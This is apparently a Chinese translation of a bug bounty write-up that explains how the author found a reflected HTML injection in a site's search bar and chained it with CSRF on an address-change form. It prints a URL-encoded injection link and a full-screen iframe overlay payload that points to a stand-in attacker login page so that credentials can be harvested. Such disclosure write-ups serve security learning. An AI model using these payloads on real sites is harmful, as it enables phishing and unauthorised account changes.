




# HTML 注入的特例

> 原文：<https://infosecwriteups.com/the-peculiar-case-of-html-injection-d14db8440e3?source=collection_archive---------4----------------------->

> 这是我在一个私人 bug bounty 项目中发现的一个不寻常的 HTML 注入 bug。



HTML 注入(img src:[)https://www . acune tix . com/blog/we b-security-zone/HTML-injections/](https://www.acunetix.com/blog/web-security-zone/html-injections/)

# HTML 注入和 XSS:异同

HTML 注入属于注入攻击的类别，这意味着恶意的 HTML 输入被网站信任并显示给无辜的用户。

类似于 XSS 有存储，反映，和自我 HTML 注入。HTML 注入漏洞不像 XSS(跨站点脚本)那样严重，但可以与其他漏洞联系起来造成严重影响。

XSS 和 HTML 注入之间的明显区别是，在 XSS 的情况下，人们可以将功能 javascript 注入到网站上，这使攻击者能够虚拟地执行真实用户可以做的任何任务，而仅注入 HTML 本身几乎可以破坏网站，但如果这与诸如 CSRF(跨站点请求伪造)之类的漏洞相联系，那么攻击的危险程度会增加，因为攻击成功的用户依赖性会降低。

# 错误报告

在我的案例中，HTML 注入实际上是在寻找易受攻击网站的搜索功能上的 XSS 的过程中发现的。

该网站使用了 Cloudflare WAF，这阻止了攻击者执行 XSS。搜索类似于

```

```

Cloudflare WAF 被触发，但当我等待足够长的时间时，搜索栏的搜索预览功能会尝试加载图像并触发 XSS。



预览特性临时在 DOM 上加载有效负载

但不幸的是，这只是一个自我 XSS，当有效载荷被搜索时，Cloudflare 就会出现。

但是我意识到 WAF 并没有阻止我在没有任何 javascript 的情况下搜索 HTML 标签。



反映 HTML 组件

因此，当攻击者向用户发送这个链接时，HTML 将反映在搜索栏中。

```
https://vulnerable.com/search?term=%3Cimg+src%3Dx%3E
```

现在，这怎么能造成大的影响呢？

因此，一种方法是用 iframe 覆盖整个网页，攻击者可以创建一个类似于网站的虚假登录页面，这将导致用户输入将发送给攻击者的凭据。

该有效载荷可用于:-

```
<iframe src="***https:/attacker/login***" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999; scrolling="no";frameborder="0"">
```

但是这种方法的问题是，这种攻击需要多大程度的用户交互。所以我必须想出一个更好的解决方案。

我发现了[这个关于类似漏洞的报告](https://medium.com/@irounakdhadiwal999/stored-iframe-injection-csrf-account-takeover-42c93ad13f5d)，它帮助我想出了解决方案。

现在，就像我说的，用 CSRF 链接 HTML 注入可以产生更大的影响，幸运的是我在网站的地址更改功能中发现了 CSRF 的可能性。

将这两个漏洞联系起来，我使用了之前使用的 Iframe 有效负载，它的 *src* 被设置为一个 webhook 端点，该端点托管了一个自提交表单，该表单更改了用户使用 [burp Suite CSRF PoC 生成器](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc)生成的地址。

通过这种方式，用户依赖性减少了，影响增加了，因此报告被接受并被分类，最后，我得到了一笔奖金。



## 如果你喜欢我的报告，请留下一堆掌声！！

[](https://www.buymeacoffee.com/dungeonmaster)